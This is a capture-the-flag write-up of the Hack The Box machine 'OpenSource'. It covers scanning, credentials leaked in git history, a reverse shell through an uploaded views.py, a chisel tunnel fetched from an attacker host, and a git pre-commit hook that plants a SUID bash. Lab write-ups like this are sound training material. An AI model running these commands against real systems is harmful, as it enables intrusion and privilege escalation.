


# [OpenSource](https://app.hackthebox.com/machines/OpenSource)

```bash
nmap -p- --min-rate 10000 10.10.11.164 -Pn  
```




After detection of open ports, let's do greater scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.11.164 -Pn  
```


Now, I will directory enumeration via `gobuster` command.

```bash
gobuster dir -u http://10.10.11.164/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -t 40
```


While opening `/download` endpoint, I download `source.zip` file.

I `cd` into `.git` directory and do enumeration for `git` repository.


First, I see branches of this repository via `git branch -a`.


I switch into `dev` branch from `public` branch via `git checkout` command.
```bash
git checkout dev
```


Let's look at last commits via `git log` command.
```bash
git log --name-only --oneline
```


I go back to commit named as 'a76f8f7'.
```bash
git checkout a76f8f7 -- app/.vscode/settings.json
```


I grab credentials from this `settings.json` file.

dev01:Soulless_Developer#2022


While browsing `/console` endpoint, I confront with `Python Flask Debug` page, but there's PIN already set.


To debug this password, I found such [blog](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug).


Another way to get shell is easy for me that uploading file into location where I now.

That's location called `/app/app/views.py` via reverse shell content.


I upload this malicious `views.py` script via file upload by catching request.


Now, while browsing `/dr4ks` endpoint, I will get reverse shell.



I got reverse shell from port (1337).


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("sh")'
Ctrl+Z
stty raw -echo; fg
export TERM=xterm
export SHELL=bash
```


Now, I got shell, from my nmap scan there's service running on port `3000`, let's curl this application via `curl`.

```bash
wget 172.17.0.1:3000 -O-
```


That's `Gitea` application, let's do `HTTP Tunneling`.

I do this via `chisel` binary.


First, we need to open `http server` to serve my malicous `chisel` binary.

```bash
python3 -m http.server --bind 10.10.14.10 8080
```


Then, we need to get this file via `wget` binary.
```bash
wget http://10.10.14.10:8080/chisel_1.9.1_linux_amd64
```


Let's create HTTP tunnel, for this I need to open `listener`.
```bash
chisel server -p 8000 --reverse
```


Now, we need to write below command on target machine.

```bash
./chisel_1.9.1_linux_amd64 client 10.10.14.10:8000 R:3000:172.17.0.1:3000
```


While browsing `localhost:3000`, I can see `Gitea` server.

I login into this `Gitea` via credentials which I got from last commits of repository.

dev01:Soulless_Developer#2022


I found `private_key(id_rsa)` file on repository.


Let's copy this `id_rsa` file and save it.

```bash
chmod 600 id_rsa
ssh -i id_rsa dev01@10.10.11.164
```

user.txt


Now, I will upload `pspy64` into machine and run.

I see one interesting bash script that called `/usr/local/bin/git-sync`.


I read this and it is `bash` script.


For this, I will use `git hooks` which are scripts are run various events on git repository.


So that, I will write malicious code which copies `/bin/bash` file named as `dr4ks` and give `SUID` privilege to this file.

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/dr4ks\nchown root:root /tmp/dr4ks\nchmod 4777 /tmp/dr4ks' > pre-commit
chmod +x pre-commit
```


Now we can run this `dr4ks` binary via `-p` option.


root.txt

